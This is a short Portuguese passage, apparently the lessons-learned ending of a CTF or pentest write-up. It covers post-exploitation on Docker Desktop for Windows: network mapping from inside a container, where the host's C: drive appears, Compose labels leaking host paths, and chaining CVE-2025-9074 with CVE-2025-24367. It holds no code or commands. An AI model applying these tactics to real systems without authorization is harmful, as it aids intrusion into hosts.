- Após cair em um container, mapear a rede vizinha é tão importante quanto enumerar localmente. A superfície interessante geralmente está fora da própria interface do container.
- Em Docker Desktop sobre Windows, o caminho até o disco `C:` do host fica em `/host/mnt/host/c/` quando você monta `/` do daemon Linux dentro do container — saber essa estrutura economiza tempo.
- Labels do Docker Compose podem vazar caminhos absolutos do host real (`C:\Users\Administrator\...`), entregando informação sobre o sistema operacional, o usuário administrador e a localização dos arquivos sensíveis sem precisar de mais enumeração.
- CVEs de container escape (CVE-2025-9074) e CVEs de aplicação (CVE-2025-24367) cada vez mais se combinam em chains modernas — manter ambos os universos no radar é essencial.

---

# Autor

https://github.com/ninjaa-exe
